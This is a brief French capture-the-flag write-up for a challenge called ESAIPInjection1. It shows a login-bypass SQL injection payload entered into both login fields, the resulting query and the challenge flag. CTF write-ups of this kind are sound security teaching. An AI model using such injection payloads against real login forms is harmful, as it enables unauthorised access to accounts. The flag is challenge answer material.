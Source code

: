 # ESAIPInjection1

## Ma solution

On tombe sur cette page de connexion : 

![](./images/1.png)

Le challenge requiert de rentrer du texte dans les deux champs d'entrée, on fait une Blind SQLI de la forme : 

``
" or ""="
``

Dans les deux champs d'entrée de manière à produire une requête de la forme : 

```sql
SELECT * FROM Users WHERE username ="" or ""="" AND password ="" or ""=""
```

A la connexion on obtient alors le flag :  `flag EC2{5ql_L061n_3z_70_Pwn}`
